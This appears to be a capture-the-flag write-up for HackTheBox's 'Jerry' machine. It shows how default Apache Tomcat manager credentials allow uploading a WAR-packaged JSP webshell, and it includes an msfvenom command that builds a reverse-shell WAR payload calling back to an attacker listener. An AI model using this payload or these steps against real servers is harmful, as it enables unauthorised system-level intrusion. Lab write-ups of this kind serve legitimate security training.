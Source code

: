 ```yaml
---
layout: single
title: HackTheBox - Jerry Writeup
permalink: /hackthebox-jerry-writeup/
excerpt: "Jerry is an easy box from HackTheBox. This machine explores the upload vulnerability in the manager section. Which the attacker can upload the WAR file payload and get the reverse shell as a system user. The credentials are really easy to own because it's using the default creds, also, the error page exposes it as well."
classes: wide
header:
  teaser: "/assets/images/htb/jerry/Jerry.png"
  teaser_home_page: true
categories:
  - hackthebox
  - windows
  - infosec
  - easy-htb
  - writeup
tags:
  - upload-vuln
  - rce
  - msfvenom
  - jsp-webshell
  - war-file
  - apache-tomcat
---
```



![hackthebox jerry title card](/assets/images/htb/jerry/Jerry.png)

# <font color="#9bffc8">Nmap</font>

As always, I'm gonna start with the Nmap scan with this IP address `10.10.10.95`

```sql
# Nmap 7.92 scan initiated Tue Mar  1 07:29:58 2022 as: nmap -sC -sV -p- -oN nmap/jerry_all 10.10.10.95
Nmap scan report for 10.10.10.95
Host is up (0.060s latency).
Not shown: 65534 filtered tcp ports (no-response)
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-server-header: Apache-Coyote/1.1
|_http-favicon: Apache Tomcat
|_http-title: Apache Tomcat/7.0.88

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Mar  1 07:36:10 2022 -- 1 IP address (1 host up) scanned in 371.74 seconds
```

One port just opens at `8080` and it is `Apache Tomcat`. Well, this machine is straightforward. So, I'm gonna show, you how to exploit it with `msfvenom` and `web shell`. Let's go.

# <font color="#9bffc8">Http (Apache Tomcat)</font>
Let's take a look at port `8080` which serve as Http.


![1](/assets/images/htb/jerry/apache-default-install-page.png)

It's just an `Apache Tomcat` default page after installations. So, I'll try to play around. Then, I found the `/manager/html` section upon clicking the  `Manager App` button. Also, I found the credentials on the `error` page.


![1](/assets/images/htb/jerry/error-page.png)

# <font color="#9bffc8">/manager/html</font>
On this page, we can upload the `WAR` file to the server. Then, I'm thinking maybe I can upload some sort of shell since this is an old version of `Apache Tomcat`. 


![1](/assets/images/htb/jerry/upload-the-war-file-page.png)

# <font color="#9bffc8">WebShell</font>
With light googling, I found this [webshell](https://raw.githubusercontent.com/BustedSec/webshell/master/index.jsp). So, I'm gonna create a new directory called `xploit`. Then, download it with the `wget` command in `xploit` dir. However, we wanted in form of a `WAR` file to be able to upload it. Let's convert this `.jsp` file into `.WAR` file.


![1](/assets/images/htb/jerry/convert-jsp-file-into-war-file.png)

If the command successfully ran. There will be a new file created in your current directory. In this case, my `xploit` directory. Now, Let's upload the newly created web shell to the server. It went through and didn't throw any errors. 


![1](/assets/images/htb/jerry/webshell-created-after-upload.png)

To spawn the shell, just click the `/web shell` path in the table. 


![1](/assets/images/htb/jerry/run-the-whoami-in-the-webshell.png)

WOW! we just became `nt authority\system` user. Furthermore, you can upload the [nishang](https://github.com/samratashok/nishang)  reverse shell to get a proper shell.

# <font color="#9bffc8">MSFVenom</font>
If you like to get a reverse shell straight away. We can use the `msfvenom` payload and get the connection back through `nc`. First, let's create the `payload` with this command; and make sure to start the listener as well.

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=your_ip LPORT=any_port -f war -o shell.war
```


![1](/assets/images/htb/jerry/created-msfvenom-payload.png)

The last step is, to upload it into this machine and double-click the `/shell`. _ET VOILA_


![1](/assets/images/htb/jerry/nc-reverse-shell-callback.png)
